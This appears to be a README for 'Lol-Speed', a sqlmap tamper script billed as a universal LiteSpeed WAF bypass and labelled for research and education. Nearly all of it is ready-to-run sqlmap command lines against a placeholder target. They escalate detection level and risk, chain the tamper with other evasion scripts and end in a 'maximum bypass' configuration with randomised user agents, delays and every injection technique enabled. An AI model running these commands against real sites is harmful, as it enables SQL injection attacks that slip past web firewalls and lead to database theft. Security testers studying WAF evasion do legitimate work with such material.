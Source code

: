 # Lol-Speed SQLMAP Tamper
Universal LiteSpeed WAF Bypass Tamper Script Comprehensive evasion techniques collection Research and educational purposes only by Zzl0y

# Basic usage
Level 1 (automatic)
sqlmap -u "http://target/vuln.php?id=1" --tamper lol-speed

Force Level 3
sqlmap -u "http://target/vuln.php?id=1" --tamper lol-speed --level 3

Maximum Level 5
sqlmap -u "http://target/vuln.php?id=1" --tamper lol-speed --level 5 --risk 3


# Adaptive testing
Automatic escalation on blocking
sqlmap -u "http://target/vuln.php?id=1" \
       --tamper=lol-speed \
       --level=1 \
       --batch \
       --smart \
       --randomize=id

# Combining with other tamper scripts
sqlmap -u "http://target/vuln.php?id=1" \
       --tamper=lol-speed ,between,randomcase \
       --level=3 \
       --risk=2

# Configuration for Testing
Full configuration for maximum bypass
sqlmap -u "http://target/vuln.php?id=1" \
       --tamper=lol-speed \
       --level=5 \
       --risk=3 \
       --technique=BEUSTQ \
       --threads=1 \
       --delay=2 \
       --timeout=30 \
       --retries=5 \
       --randomize=id \
       --random-agent \
       --keep-alive \
       --null-connection \
       --flush-session \
       --batch

